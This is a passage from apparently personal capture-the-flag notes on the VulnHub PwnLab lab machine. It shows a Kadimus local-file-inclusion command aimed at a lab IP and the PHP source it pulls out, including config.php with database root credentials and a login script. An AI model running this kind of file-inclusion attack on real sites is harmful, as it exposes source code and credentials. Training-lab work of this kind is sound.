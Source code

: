 ``` 
[19:37:04] [INFO] valid base64 returned:                                                                                                                                                                         
[19:37:04] [INFO] check the output file

<?php
$server	  = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>



root@kali:/mnt/hgfs/my-notes-and-snippets/notes/ctfs/vulnhub/pwnlab/loot# kadimus -u http://192.168.56.103/?page=login --parameter page --get-source --filename "login" -O login.php  --proxy http://127.0.0.1:8080 
 _  __         _ _                     
| |/ /__ _  __| (_)_ __ ___  _   _ ___ 
| ' // _` |/ _` | | '_ ` _ \| | | / __|
| . \ (_| | (_| | | | | | | | |_| \__ \
|_|\_\__,_|\__,_|_|_| |_| |_|\__,_|___/

  v1.1 - LFI Scan & Exploit Tool (@hc0d3r - P0cL4bs Team)

[21:18:41] [INFO] trying get source code of file: login
[21:18:41] [INFO] valid base64 returned:
[21:18:41] [INFO] check the output file

<?php
session_start();
require("config.php");
$mysqli = new mysqli($server, $username, $password, $database);

if (isset($_POST['user']) and isset($_POST['pass']))
{
        $luser = $_POST['user'];
        $lpass = base64_encode($_POST['pass']);

        $stmt = $mysqli->prepare("SELECT * FROM users WHERE user=? AND pass=?");
        $stmt->bind_param('ss', $luser, $lpass);

        $stmt->execute();
        $stmt->store_Result();

        if ($stmt->num_rows == 1)
        {
                $_SESSION['user'] = $luser;
                header('Location: ?page=upload');
        }
        else
        {
                echo "Login failed.";
        }
}
else
{
        ?>
        <form action="" method="POST">
        <label>Username: </label><input id="user" type="test" name="user"><br />
        <label>Password: </label><input id="pass" type="password" name="pass"><br />
        <input type="submit" name="submit" value="Login">
        </form>
```
